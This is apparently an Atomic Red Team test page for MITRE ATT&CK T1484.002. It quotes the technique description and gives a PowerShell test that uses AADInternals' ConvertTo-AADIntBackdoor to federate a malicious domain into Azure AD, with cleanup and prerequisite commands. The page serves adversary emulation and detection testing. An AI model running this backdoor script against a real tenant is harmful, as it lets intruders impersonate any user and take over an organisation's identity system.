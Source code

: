 # T1484.002 - Domain Trust Modification

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/002)

<blockquote>Adversaries may add new domain trusts or modify the properties of existing domain trusts to evade defenses and/or elevate privileges. Domain trust details, such as whether or not a domain is federated, allow authentication and authorization properties to apply between domains for the purpose of accessing shared resources.(Citation: Microsoft - Azure AD Federation) These trust objects may include accounts, credentials, and other authentication material applied to servers, tokens, and domains.

Manipulating the domain trusts may allow an adversary to escalate privileges and/or evade defenses by modifying settings to add objects which they control. For example, this may be used to forge [SAML Tokens](https://attack.mitre.org/techniques/T1606/002), without the need to compromise the signing certificate to forge new credentials. Instead, an adversary can manipulate domain trusts to add their own signing certificate. An adversary may also convert a domain to a federated domain, which may enable malicious trust modifications such as altering the claim issuance rules to log in any valid set of credentials as a specified user.(Citation: AADInternals zure AD Federated Domain) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Add Federation to Azure AD](#atomic-test-1---add-federation-to-azure-ad)

<br/>

## Atomic Test #1 - Add Federation to Azure AD

Add a new federated domain to Azure AD using PowerShell.
The malicious domain to be federated must be configured beforehand (outside of the scope of this test): 1. Open Azure Portal 2. Add a new "custom domain name" 3. Verify the domain by following instructions (i.e. create the requested DNS record)

**Supported Platforms:** Azure-ad

**auto_generated_guid:** 8906c5d0-3ee5-4f63-897a-f6cafd3fdbb7

#### Inputs:

| Name           | Description                                                                                                              | Type   | Default Value                |
| -------------- | ------------------------------------------------------------------------------------------------------------------------ | ------ | ---------------------------- |
| azure_username | Username of a privileged Azure AD account such as External Identity Provider Administrator or Global Administrator roles | string | bruce.wayne@contosocloud.com |
| azure_password | Password of azure_username                                                                                               | string | iamthebatman                 |
| domain_name    | Malicious federated domain name                                                                                          | string | contoso.com                  |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module AzureAD
Import-Module AADInternals

$PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword

try {
  Connect-AzureAD -Credential $Credential -ErrorAction Stop > $null
}
catch {
  Write-Host "Error: AzureAD could not connect"
  exit 1
}

try {
  $domain = Get-AzureADDomain -Name "#{domain_name}"
}
catch {
  Write-Host "Error: domain ""#{domain_name}"" not found"
  exit 1
}
if (-Not $domain.IsVerified) {
  Write-Host "Error: domain ""#{domain_name}"" not verified"
  exit 1
}

if ($domain.AuthenticationType -eq "Federated") {
  Write-Host "Error: domain ""#{domain_name}"" already federated. Try with a different domain or re-create it before."
  exit 1
}

$at = Get-AADIntAccessTokenForAADGraph -Credentials $Credential
if (-Not $at) {
  Write-Host "Error: AADInternals could not connect"
  exit 1
}

$new = ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "#{domain_name}"
if ($new) {
  Write-Host "Federation successfully added to Azure AD"
  Write-Host $new
}
else {
  Write-Host "The federation setup failed"
}

Write-Host "End of federation configuration."
```

#### Cleanup Commands:

```powershell
try {
  Import-Module AzureAD -ErrorAction Ignore

  $PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword
  Connect-AzureAD -Credential $Credential -ErrorAction Ignore > $null

  Remove-AzureADDomain -Name "#{domain_name}" -ErrorAction Ignore
} catch {}
```

#### Dependencies: Run with `powershell`!

##### Description: AzureAD and AADInternals Powershell modules must be installed.

##### Check Prereq Commands:

```powershell
if ((Get-Module -ListAvailable -Name AzureAD) -And (Get-Module -ListAvailable -Name AADInternals)) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name AzureAD -Force
Install-Module -Name AADInternals -Force
```

<br/>
